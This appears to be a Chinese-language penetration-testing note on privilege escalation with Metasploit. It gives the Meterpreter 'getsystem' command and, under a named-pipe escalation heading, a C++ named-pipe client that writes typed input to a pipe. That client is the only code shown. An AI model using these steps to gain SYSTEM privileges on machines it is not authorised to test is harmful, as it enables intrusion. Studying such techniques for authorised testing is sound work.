 # 渗透测试框架提权

## Metasploit提权

### Meterpreter提权

`Meterpreter`自动提权命令

```meterpreter
getuid
getsystem
```

### Getsystem命名管道提权

**pipe_client.cpp**

```c++
#include "iostream"
#include "windows.h"
#include "stdio.h"
using namespace std;
#define PIPE_NAME "\\\\.\\Pipe\\mingy"
int main()
{
	char buffer[1024];
	DWORD WriteNum;
	if (WaitNamedPipe(PIPE_NAME, NMPWAIT_WAIT_FOREVER) == FALSE)
 	{
		cout << "等待命名管道实例失败！" << endl;
		return 0;
 	}
	HANDLE hPipe = CreateFile(PIPE_NAME, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hPipe == INVALID_HANDLE_VALUE)
 	{
		cout << "创建命名管道失败！" << endl;
		CloseHandle(hPipe);
		return 0;
 	}
    cout << "与服务器连接成功！" << endl;
    while (1)
 	{
		gets(buffer);//等待数据输入
		if (WriteFile(hPipe, buffer, strlen(buffer), &WriteNum, NULL) == FALSE)
   		{
			cout << "数据写入管道失败！" << endl;
			break;
   		}
 	}
	cout << "关闭管道！" << endl;
	CloseHandle(hPipe);
	system("pause");
}
```
